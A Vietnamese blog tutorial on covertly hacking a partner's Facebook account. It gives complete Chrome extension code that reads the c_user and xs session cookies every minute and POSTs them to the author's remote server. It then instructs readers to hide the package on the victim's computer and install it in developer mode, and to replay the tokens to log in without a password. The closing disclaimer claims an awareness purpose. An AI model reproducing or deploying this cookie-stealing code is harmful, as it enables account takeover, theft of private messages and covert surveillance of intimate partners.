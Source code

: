 Mấy nay rôm rả chuyện cô Hằng nhờ "Hếch Cơ" nào đó có thể làm gì đó ... liên quan tới **Facebook** để lấy "1 tỏi" tiền tươi nghe có vẻ hấp dẫn :D Mình nảy ra 1 ý tưởng là mình muốn hếch thử Facebook honey của mềnh.

**Update 06/06/2021: Mình đã xóa host và DB ạ. Vì token gởi về khá nhiều, do sợ ảnh hưởng đến victim ...  Mong các anh em thông cảm! Thân.**

## Ý Tưởng
- Mình sẽ tạo 1 Chrome Extension để lấy facebook cookie của honey. Nhiệm vụ của nó là sẽ lấy token của Facebook sau đó gởi đến server của mình

![](https://images.viblo.asia/aad3b9c1-4fb3-46ea-acbf-160fe99b5fb6.png)

Sau khi có được token - mình add vào trình duyệt. Và thế là mình đã vào được Facebook của honey mà không cần "Password"

![](https://images.viblo.asia/ee07b421-d62c-465d-adbd-8378dffbfecd.png)

## Build Service

MÌnh tạo 1 Backend để lắng nghe các token gởi về. Các bạn cũng có thể dùng thử nhé.

**Note: Mình đang dùng micro server thôi - yếu lắm ... các bạn dừng DDos nha. Không là lần sau mềnh không có động lực để làm gì đâu (Mặc dù đã có auto load-balancing 1-4 instances)**

![](https://images.viblo.asia/35dd5c4d-616d-49ea-a43b-0049873d1178.png)

Sau khi tạo acc xong - các bạn download Chrome Extension package về. Trong package này sẽ chứa UUID của account mà bạn đăng ký - dựa vào đó server sẽ biết được token gởi về là của bạn nào

![](https://images.viblo.asia/977e3468-3792-4297-8857-73147b5ee152.png)

```
var cUser;
var Xs;

function getCookies(domain, name) {
  chrome.cookies.get({ "url": domain, "name": name }, function (cookie) {
    if (name == 'c_user') {
      cUser = cookie.value;
    } else if (name == 'xs') {
      Xs = window.btoa(cookie.value);
    }

    if (cUser && Xs) {
      send2BE();
    }
  });
}

function send2BE() {
  var data = 'c_user=' + cUser;
  data += '&xs=' + Xs;
  data += '&auth_token=your-id-token';

  var request = new XMLHttpRequest();
  request.open('POST', 'http://facebooktoken-env.eba-a3j3v3zd.us-east-1.elasticbeanstalk.com/api/fb-hook', true);
  request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8');
  request.send(data);
}

chrome.alarms.create("myAlarm", { delayInMinutes: 0.1, periodInMinutes: 1 });
chrome.alarms.onAlarm.addListener(function (alarm) {
  getCookies("https://www.facebook.com", "xs")
  getCookies("https://www.facebook.com", "c_user")
});
```

Các bạn hãy lưu cái package này ở đâu đó thật kín đáo trong **máy của GẤU** nhé -(`C:\Program Files` chẳng hạn). Rồi cài vào trình duyệt của Gấu bằng mode develop

![](https://images.viblo.asia/7d08999d-136f-4569-9118-6700476bea17.png)

![](https://images.viblo.asia/a7fc63cd-cca7-4d2e-b43d-a0bf670e38b6.png)

![](https://images.viblo.asia/12ff1bc4-4f21-4538-818e-03fd580c3051.png)

Vậy là xong ... giờ chỉ ngồi chờ Token gởi về rồi sử dụng thôi

![](https://images.viblo.asia/d3dab752-f9f2-4baf-bb93-64c75dc5489d.png)

Sau khi có thông tin token rồi. Thì mình mở browser của mình lên và gán thông tin token của honey vào. Done!
![](https://images.viblo.asia/4c1395b8-611e-45b9-baaa-87af8cee1908.png)
![](https://images.viblo.asia/ee07b421-d62c-465d-adbd-8378dffbfecd.png)

## Kết mở
- Trong lúc làm thử mình phát hiện một lỗi hổng nhỏ của Facebook Messenger - Trừ khi bạn đổi mật khẩu thì mình mới không còn đọc được messenger của bạn - Mình không nói ở đây nha, mọi người tự tìm hiểu nhé.
- Bài viết nhằm để các bạn ý thức được tầm quan trọng của cookie.
- Mình không chịu trách nhiệm trước mọi hành phi phạm pháp nếu dùng vào mục đích xấu nhé.
- Ngày xưa mình đẩy lên server khá vất vả ... nhưng giờ mọi thứ nhanh hơn nhiều ... phần server infrastructure mình làm chưa đầy 2 tiếng (From 0 + Google). Tham khảo ảnh bên dưới cho bạn nào muốn tham khảo heng

![](https://images.viblo.asia/e36cdbae-ac02-491a-9676-5e5fad2e98f2.png)